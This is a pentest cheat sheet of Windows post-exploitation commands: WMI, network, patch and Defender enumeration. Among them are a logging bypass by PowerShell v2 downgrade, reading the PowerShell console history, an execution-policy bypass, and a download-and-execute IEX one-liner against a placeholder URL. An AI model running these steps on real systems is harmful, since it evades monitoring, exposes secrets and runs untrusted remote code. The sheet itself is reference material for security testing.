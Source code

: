 ```powershell title="Living Off The Land"

# CMD: Getting latest patches and hotfixes applied to the host
wmic qfe get Caption,Description,HotFixID,InstalledOn

# CMD: Getting all network information
ipconfig /all

# CMD: Getting ARP Table
arp -a

# CMD: Getting Route Table for IPv4 and IPv6
route print

# CMD: Getting all environment variables
set

# CMD: Getting system informations
systeminfo

# CMD: Getting firewall informations
netsh advfirewall show allprofiles

# CMD: Querying information from Windows Defender
sc query windefend

# PowerShell: Bypassing Event Viewer Logging
powershell.exe -version 2

# PowerShell: Getting Windows operating system version
[System.Environment]::OSVersion

# PowerShell: Getting the PowerShell console history
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt

# PowerShell: Getting the list of PowerShell modules
Get-Module

# PowerShell: Getting the list of execution policies
Get-ExecutionPolicy -List

# PowerShell: Starting a terminal to do temporarily changes
Set-ExecutionPolicy Bypass -Scope process

# PowerShell: Quickly download files
powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('<URL>');"

# PowerShell: Querying information about Windows Defender
Get-MpComputerStatus
```

```powershell title="Windows Managemnet Instrumentation"
# Prints the patch level and description of the Hotfixes applied
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Displays basic host information to include any attributes within the list
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List

# A listing of all processes on host
wmic process list /format:list

# Displays information about the Domain and Domain Controllers
wmic ntdomain list /format:list

```